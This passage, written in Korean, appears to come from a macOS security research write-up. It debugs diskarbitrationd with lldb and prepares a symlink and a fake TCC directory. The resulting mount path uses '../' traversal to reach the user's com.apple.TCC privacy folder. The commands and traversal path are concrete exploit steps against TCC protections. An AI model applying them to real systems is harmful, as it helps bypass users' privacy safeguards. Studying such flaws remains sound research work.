 해당 코드를 컴파일하고 `lldb`를 사용하여 디버깅을 시작한 후, 다음과 같은 브레이크포인트를 설정합니다.

```bash
(lldb) breakpoint list
Current breakpoints:
1: name = 'realpath', locations = 1, resolved = 1, hit count = 0
  1.1: where = libsystem_c.dylib`realpath, address = 0x00000001921de874, resolved, hit count = 0 
2: name = 'DADiskMountWithArgumentsCommon', locations = 1, resolved = 1, hit count = 1
  2.1: where = DiskArbitration`DADiskMountWithArgumentsCommon, address = 0x000000019a1bdb48, resolved, hit count = 1 
3: address = DiskArbitration[0x0000000188325c1c], locations = 1, resolved = 1, hit count = 1
  3.1: where = DiskArbitration`DADiskMountWithArgumentsCommon + 212, address = 0x000000019a1bdc1c, resolved, hit count = 1 
4: name = '__DAQueueRequest', locations = 1, resolved = 1, hit count = 1
  4.1: where = DiskArbitration`__DAQueueRequest, address = 0x000000019a1bcde0, resolved, hit count = 1 
```

`diskarbitrationd` 프로세스에 `lldb`를 연결하고 `sandbox_check_by_audit_token`에 대한 브레이크포인트 설정

```
(lldb) breakpoint list
Current breakpoints:
2: name = 'sandbox_check_by_audit_token', locations = 1, resolved = 1, hit count = 4
  2.1: where = libsystem_sandbox.dylib`sandbox_check_by_audit_token, address = 0x000000019d5a61cc, resolved, hit count = 4 
```

심볼릭 링크 및 디렉터리 준비

```
ln -s /private/tmp/deep/1/2 /private/tmp/starthere
mkdir -p "/private/tmp/Users/crab/Library/Application Support/com.apple.TCC/"
```

---

**실행 후 LLDB 디버깅 과정**

1.프로그램을 실행하고 브레이크포인트에 도달함

```
(lldb) run
Process 1591 launched: '/Users/crab/m' (arm64)
Process 1591 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 2.1
```

2.`X1` 레지스터가 가리키는 메모리 덤프

```
(lldb) memory read -f p $x1
0x600000024060: 0x01000001fa131911 0x0001cc4fc6001d80 0x0800010060015821 0x0000600000f24000
```

3.경로 문자열 확인

```
(lldb) memory read -f s 0x0000600000f24000+16
0x600000f24010: "^file:///private/tmp/starthere/../../../Users/crab/Library/Application%20Support/com.apple.TCC/"
```
